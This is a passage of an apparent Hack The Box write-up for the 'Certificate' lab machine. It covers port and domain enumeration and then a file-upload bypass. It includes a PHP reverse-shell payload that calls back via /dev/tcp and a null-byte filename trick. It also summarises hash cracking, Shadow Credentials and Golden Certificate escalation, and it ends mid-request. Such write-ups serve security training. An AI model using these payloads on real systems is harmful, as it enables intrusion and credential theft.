

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Certificate Web Application](#Certificate-Web-Application)
- [Foothold](#Foothold)
    - [Upload Filter Shenanigans](#Upload-Filter-Shenanigans)
    - [Upload Filter Bypass through Zip-File Concatenation](#Upload-Filter-Bypass-through-Zip-File-Concatenation)
    - [Enumeration (xamppuser)](#Enumeration-xamppuser)
- [Privilege Escalation to Sara.B](#Privilege-Escalation-to-SaraB)
    - [Cracking the Hash](#Cracking-the-Hash)
- [Enumeration (Sara.B)](#Enumeration-SaraB)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Privilege Escalation to Lion.SK](#Privilege-Escalation-to-LionSK)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Access Control List (ACL) GenericAll Abuse Part 1](#Access-Control-List-ACL-GenericAll-Abuse-Part-1)
        - [Shadow Credentials Attack Part 1](#Shadow-Credentials-Attack-Part-1)
- [user.txt](#usertxt)
- [Enumeration (Lion.SK)](#Enumeration-LionSK)
- [Privilege Escalation to Ryan.K](#Privilege-Escalation-to-RyanK)
    - [Active Directory Certificate Services (AD CS) Enumeration](#Active-Directory-Certificate-Services-AD-CS-Enumeration)
    - [Access Control List (ACL) GenericAll Abuse Part 2](#Access-Control-List-ACL-GenericAll-Abuse-Part-2)
        - [Shadow Credentials Attack Part 2](#Shadow-Credentials-Attack-Part-2)
- [Enumeration (Ryan.K)](#Enumeration-RyanK)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [SeManageVolumePrivilege Abuse (Golden Certificate)](#SeManageVolumePrivilege-Abuse-Golden-Certificate)
- [root.txt](#roottxt)

## Summary

The box starts with a `web application` running on port `80/TCP` which allows registered users to `upload` files with specific `file extensions` in order to participate on a `Quizz`. The `upload filter` can be `bypassed` by using `Zip-File Concatenation` which leads to `Remote Code Execution (RCE)` and to `Foothold` on the box as user `xamppuser`. Within the directory of `xampp` then `credentials` for the `MySQL Database` can be found which allows to `dump` all the `hashes` and `exfiltrate` them. One of the `hashes` belongs to the user `Sara.B` which can be `cracked` using `John The Ripper`. With the `password` of `Sara.B` the `configuration` of the `Active Directory` can be dumped to gain more insights. This shows that the user `Sara.B` is member of the group `ACCOUNT OPERATORS` which gives her `GenericAll` permissions over `57 (!!)` objects in the `Domain`. By using the `Shadow Credentials` technique it is possible to impersonate the user `Lion.SK` which grants access to the `user.txt`. From here on `Shadow Credentials` can be used a second time to `escalate privileges` to `Ryan.K` which is not only member of the `DOMAIN STORAGE MANAGERS` group, he also has the `SeManageVolumePrivilege` set. The exploitation of this privilege allows to `export` the `certificate` of the `Certificate Authority (CA)` in order to forge a `Golden Certificate`. With the `Golden Certificate` it is then possible to authenticate as `Administrator` and grab the `root.txt`.

## Reconnaissance

### Port Scanning

As always we started with a initial `port scan` using `Nmap` and got exactly the outcome we expected from a potential `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.37.186
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-01 10:16 CEST
Nmap scan report for 10.129.37.186
Host is up (0.73s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-title: Did not follow redirect to http://certificate.htb/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-01 16:18:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-06-01T16:19:30+00:00; +8h00m02s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-06-01T16:19:30+00:00; +8h00m02s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-01T16:19:30+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-06-01T16:19:30+00:00; +8h00m02s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-01T16:18:55
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.05 seconds
```

### Domain Enumeration

While the initial `port scan` was running we checked the `domain` using `enum4linux-ng` for low-hanging fruits and added `certificate.htb` as well as `dc01.certificate.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.37.186
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.37.186
[*] Username ......... ''
[*] Random Username .. 'kjujntjh'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.37.186    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.37.186    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: certificate.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.37.186    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.37.186    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ============================================================
|    Domain Information via SMB session for 10.129.37.186    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: CERTIFICATE                                                                                                                                                                                                            
DNS domain: certificate.htb                                                                                                                                                                                                                 
FQDN: DC01.certificate.htb                                                                                                                                                                                                                  
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: CERTIFICATE                                                                                                                                                                                                                 

 ==========================================
|    RPC Session Check on 10.129.37.186    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.129.37.186    |
 ====================================================
[+] Domain: CERTIFICATE
[+] Domain SID: S-1-5-21-515537669-4223687196-3249690583
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.129.37.186    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 ======================================
|    Users via RPC on 10.129.37.186    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.129.37.186    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.129.37.186    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.37.186    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.37.186    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 55.97 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.37.186   certificate.htb
10.129.37.186   dc01.certificate.htb
```

### Enumeration of Port 445/TCP

Typically port `445/TCP` has something to offer but not this time. We performed a few quick checks on it to see if we were able to list or read any shares but nothing.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.37.186 -u '' -p '' --shares
SMB         10.129.37.186   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.129.37.186   445    DC01             [+] certificate.htb\: 
SMB         10.129.37.186   445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.37.186 -u ' ' -p ' ' --shares
SMB         10.129.37.186   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.129.37.186   445    DC01             [-] certificate.htb\ :  STATUS_LOGON_FAILURE
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.37.186 -u 'Guest' -p ' ' --shares
SMB         10.129.37.186   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.129.37.186   445    DC01             [-] certificate.htb\Guest:  STATUS_LOGON_FAILURE
```

### Enumeration of Port 80/TCP

Then we started investigating the `web application` running on port `80/TCP`. The application offered the option to `register` and `login` in order to `enroll` courses for earning certificates.

- [http://certificate.htb/](http://certificate.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://certificate.htb/
http://certificate.htb/ [200 OK] Apache[2.4.58], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30], HttpOnly[PHPSESSID], IP[10.129.37.186], JQuery[2.2.4], Meta-Author[colorlib], OpenSSL[3.1.3], PHP[8.0.30], Script[text/javascript], Title[Certificate | Your portal for certification], X-Powered-By[PHP/8.0.30]
```


A user could register as a `student` or `teacher`. For testing purposes we register two users. One as a student and one as a teacher. Later we noticed that this was actually unnecessary.

- [http://certificate.htb/register.php](http://certificate.htb/register.php)







| Username | Password | Role    |
| -------- | -------- | ------- |
| foobar   | foobar   | student |
| barfoo   | barfoo   | teacher |

### Certificate Web Application

We logged in as `student` and chose a `course` we wanted to `enroll`. We intercepted the `enrollment request` using `Burp Suite` to see what actually happens.

- [http://certificate.htb/course-details.php?id=1](http://certificate.htb/course-details.php?id=1)



```shell
GET /course-details.php?id=1&action=enroll HTTP/1.1
Host: certificate.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/course-details.php?id=1
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive


```

Next we scrolled down on the course page and noticed that we could `submit` a `Quizz`.



This actually lead us to an `upload form` which accepted only a few very specific `file types`.

```shell
GET /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/course-details.php?id=1&action=enroll
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive


```



Even if it didn't specified `.png` as accepted file, we tried it anyways. And it got rejected by the web application.

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 821823
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNu8Y2snSDTVGTA7A
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundaryNu8Y2snSDTVGTA7A
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundaryNu8Y2snSDTVGTA7A
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundaryNu8Y2snSDTVGTA7A
Content-Disposition: form-data; name="file"; filename="cat.png"
Content-Type: image/png

<--- CUT FOR BREVITY --->
```

```shell
HTTP/1.1 400 Bad Request
Date: Sun, 01 Jun 2025 16:43:39 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 105
Connection: close
Content-Type: text/html; charset=UTF-8

<h1>400 Bad Request</h1><p>The request you sent contains bad or malicious content(Invalid MIME type).</p>
```

```shell
- We accept only the following file types: .pdf .docx .pptx .xlsx
```

As next step in our testing we added some `magic bytes` to a file containing a `PHP reverse shell` payload and uploaded this one as well.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ cat hello.pdf 

%PDF-1.7
%

<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
```

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 504
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycjDWmABXxGevgRFE
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundarycjDWmABXxGevgRFE
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundarycjDWmABXxGevgRFE
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundarycjDWmABXxGevgRFE
Content-Disposition: form-data; name="file"; filename="hello.pdf"
Content-Type: application/pdf


%PDF-1.7
%

<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>

------WebKitFormBoundarycjDWmABXxGevgRFE--

```

This time it got accepted and delivered us a `static URL` on which we could access our file.

```shell
HTTP/1.1 200 OK
Date: Sun, 01 Jun 2025 16:47:24 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 10153


<--- CUT FOR BREVITY --->
                <div class="col-lg-8">
                    <div class="row">
                        <div class="col-lg-12">
                            <blockquote class="generic-blockquote">
                            File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/fd5b3018c29991130b22f3381786067b/hello.pdf'>HERE</a>
                            </blockquote>
                        </div>
                    </div>
```

- [http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/hello.pdf](http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/hello.pdf)



## Foothold

### Upload Filter Shenanigans

We started to find a way around the `upload filter restrictions` and therefore added a `null byte` in-between the `actual file extension` and one of the `extensions excepted by the web application`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ mv hellp.pdf hello.php%00.pdf
```

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 511
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW9CJ5b2mq59aslAK
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
